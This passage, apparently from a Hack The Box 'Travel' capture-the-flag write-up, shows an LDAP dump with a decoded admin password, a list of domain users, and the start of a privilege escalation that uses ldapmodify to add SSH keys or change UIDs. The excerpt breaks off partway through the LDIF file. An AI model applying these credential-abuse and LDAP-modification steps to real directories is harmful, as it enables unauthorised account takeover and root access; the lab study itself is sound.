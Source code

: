 ```bash
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: lynik-admin
userPassword:: e1NTSEF9MEpaelF3blZJNEZrcXRUa3pRWUxVY3ZkN1NwRjFRYkRjVFJta3c9PQ== # -> Theroadlesstraveled

[snip]

# domainusers, groups, linux, servers, travel.htb
dn: cn=domainusers,ou=groups,ou=linux,ou=servers,dc=travel,dc=htb
memberUid: frank
memberUid: brian
memberUid: christopher
memberUid: johnny
memberUid: julia
memberUid: jerry
memberUid: louise
memberUid: eugene
memberUid: edward
memberUid: gloria
memberUid: lynik
gidNumber: 5000
cn: domainusers
objectClass: top
objectClass: posixGroup
```
Also `getent passwd` shows the users from `ldapsearch` and `getent group` lists them in the group `domainusers`:
```bash
frank:*:5001:5000:Frank Stewart:/home@TRAVEL/frank:/bin/bash
gloria:*:5010:5000:Gloria Wood:/home@TRAVEL/gloria:/bin/bash
jane:*:5005:5000:Jane Rodriguez:/home@TRAVEL/jane:/bin/bash
christopher:*:5003:5000:Christopher Ward:/home@TRAVEL/christopher:/bin/bash
jerry:*:5006:5000:Jerry Morgan:/home@TRAVEL/jerry:/bin/bash
lynik:*:5000:5000:Lynik Schmidt:/home@TRAVEL/lynik:/bin/bash
johnny:*:5004:5000:Johnny Miller:/home@TRAVEL/johnny:/bin/bash
eugene:*:5008:5000:Eugene Scott:/home@TRAVEL/eugene:/bin/bash
brian:*:5002:5000:Brian Bell:/home@TRAVEL/brian:/bin/bash
louise:*:5007:5000:Louise Griffin:/home@TRAVEL/louise:/bin/bash
edward:*:5009:5000:Edward Roberts:/home@TRAVEL/edward:/bin/bash

domainusers:*:5000:frank,brian,christopher,johnny,jerry,louise,eugene,edward,gloria,lynik,julia
```
So after reading up a bit, to see what we can do with our privileges, the following seems most promising:
- modifying their UID and GID -> even if we can't become root directly we might be able to exploit docker/lxd
- adding SSH public keys -> to log in

These two options will indeed elevate us to root. In order to modify the attributes of users using the `ldapmodify` command we need to create so called `.ldif` files:
```bash
ldapmodify -x -H ldap://ldap.travel.htb -D "cn=lynik-admin,dc=travel,dc=htb" -w Theroadlesstraveled -f file.ldif -c
```
```bash
# SSH.ldif
# adding SSH key
dn: uid=frank,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changeType: modify
add: objectClass
objectClass: ldapPublicKey
-
add: sshPublicKey
```